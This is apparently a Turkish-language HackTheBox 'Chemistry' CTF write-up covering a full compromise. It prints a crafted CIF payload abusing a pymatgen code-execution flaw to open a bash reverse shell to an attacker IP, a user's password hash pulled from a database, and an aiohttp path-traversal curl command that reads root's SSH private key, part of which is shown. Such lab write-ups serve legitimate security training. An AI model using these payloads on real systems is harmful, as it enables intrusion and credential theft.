 ```yaml
---
title: 'HackTheBox | Chemistry WriteUp'
author: appdone
categories: [HackTheBox Challenges]
tags: [command injection, lfi, directory traversal]
render_with_liquid: false
media_subpath: /images/hackthebox_chemistry/
image:
  path: logo.webp
---
```


## Özet

Web uygulamasında bir dosyanın analiz edildiği sırada oluşan bir zafiyet olduğunu öğrenecek ve dosya içeriğini değiştirerek zafiyeti istismar edeceğiz. Daha sonra web uygulamasında kullanılan `sqlite` dosyasının içerisinden sistem kullanıcısının bilgilerini çıkaracağız. Yetki yükseltebilmek için sistemde dolaştığımız sırada yerel ağda bir web uygulamasının çalıştığını tespit edecek ve bu web uygulamasında kullanılan bir modülün üzerinde `Local File Inclusion` zafiyetinin olduğunu keşfedeceğiz. Sonrada bu zafiyetten faydalanarak `root` kullanıcısının `id_rsa` dosyasını çekecek ve bu dosyayı kullanarak `root` kullanıcısına geçiş yapacağız.

## Keşif aşaması

### Nmap taraması

```console
$ nmap -sV -sC -T4 10.10.11.38
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-22 07:44 EDT
Nmap scan report for 10.10.11.38
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
5000/tcp open  upnp?
| fingerprint-strings:
|   GetRequest:
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.0.3 Python/3.9.5
...
```

Tarama sonucunda 22 (SSH) ve 5000 (HTTP) numaralı portların açık olduğunu ve web uygulamasının `python flask` ile yapıldığını öğreniyoruz.

### 80 numaralı port'un incelenmesi

![](1.webp){: width="900" height="500" }

HTTP servisi üzerinde `flask` ile yapılmış `CIF` dosyalarını analiz eden bir uygulama barınıyor. Bir kullanıcı oluşturalım daha sonra ise siteye giriş yapalım.

![](2.webp){: width="900" height="500" }

Örnek bir `CIF` dosyası verilmiş. Bu dosyayı indirdikten sonra tekrar yüklüyor ve sonuçları görüntülüyoruz.

![](3.webp){: width="900" height="600" }

Bazı yazıları doğrudan ekrana yazdırdığını düşünerek dosyayı düzenlemeye çalıştım ama hiçbir şekilde kod çalıştıramadım. Uzantısını google da arattığımızda ise [bu](https://ethicalhacking.uk/cve-2024-23346-arbitrary-code-execution-in-pymatgen-via-insecure/) sayfa ile karşılaşıyoruz.

## Sömürü aşaması

Sayfa içerisinde gördüğümüz `CIF` dosyasının komut çalıştırdığı alanına reverse shell komutumuzu ekleyelim.

```cif
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.117/4444 0>&1'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

Bu içeriği `.cif` uzantılı olacak şekilde bir dosyaya kayıt ettikten sonra dinlemeye aldığımız port üzerinden bir shell elde ediyoruz.

![](4.webp){: width="1200" height="600" }

## Yetki yükseltme

### rosa

Web uygulamasında kullanıcı girişi olduğunu hatırlıyorsunuzdur, bu kullanıcı bilgilerinin bulunduğu dosyanın içerisinde sistem kullanıcılarından biri olan rosa'nın bilgileride bulunuyor.

```console
app@chemistry:~/instance$ strings database.db | grep "rosa"
Mrosa63ed86ee9f624c7b14f1d4f43dc251a5'
```

Hash'i [hashes.com](https://hashes.com/) sitesinin yardımıyla kırdıktan sonra rosa kullanıcısına ve ilk bayrağı kendi dizininden alıyoruz.

### root

8080 numaralı yerel port üzerinde bir web uygulaması çalışıyor.

```console
rosa@chemistry:~$ netstat -tupln
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      34896/bash          
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                   
rosa@chemistry:~$
```

Bu web uygulaması ile ilgilenebilmemiz için SSH tünellemesi vasıtasıyla kendi ağımızdan geçireceğiz.

```console
$ ssh rosa@10.10.11.38 -L 8080:127.0.0.1:8080
```

![](5.webp){: width="1200" height="600" }

Web uygulaması sistemdeki servislerin kontrolünü sağlayan bir uygulamaya benziyor. Tüm özellikleri de kapalı durumda, site üzerinde hiçbir işlem yapamıyoruz.

![](6.webp){: width="1200" height="600" }

Bulunduğu `/opt/monitoring_site` dizininede giriş iznimiz yok. Geliştirici araçlarının yardımıyla web uygulamasının header bilgilerini görüntülediğimizde python da bulunan `aiohttp` modülünün `3.9.1` sürümünü kullandığını görüyoruz.

![](7.webp){: width="1200" height="600" }

Modülü sürümüyle beraber internette arattığımızda [Local File Inclusion](https://github.com/wizarddos/CVE-2024-23334/blob/master/exploit.py) zafiyetinin varlığından haberdar oluyoruz. Bu zafiyetten yararlanarak `root` kullanıcısının dizininde bulunan `id_rsa` dosyasını çekiyoruz.

```console
rosa@chemistry:~$ curl --path-as-is http://localhost:8080/assets/../../../../../../root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAsFbYzGxskgZ6YM1LOUJsjU66WHi8Y2ZFQcM3G8VjO+NHKK8P0hIU
UbnmTGaPeW4evLeehnYFQleaC9u//vciBLNOWGqeg6Kjsq2lVRkAvwK2suJSTtVZ8qGi1v
j0wO69QoWrHERaRqmTzranVyYAdTmiXlGqUyiy0I7GVYqhv/QC7jt6For4PMAjcT0ED3Gk
HVJONbz2eav5aFJcOvsCG1aC93Le5R43Wgwo7kHPlfM5DjSDRqmBxZpaLpWK3HwCKYITbo
DfYsOMY0zyI0k5yLl1s685qJIYJHmin9HZBmDIwS7e2riTHhNbt2naHxd0WkJ8PUTgXuV2
...
```

Daha sonra kendisini kullanarak sisteme giriş yapıyor ve bayrağı `/root` dizininden alıyoruz.

```console
$ chmod 600 id_rsa
$ ssh root@10.10.11.38 -i id_rsa
...
root@chemistry:~# ls
root.txt
root@chemistry:~# cat root.txt 
33a1...8a9a
```
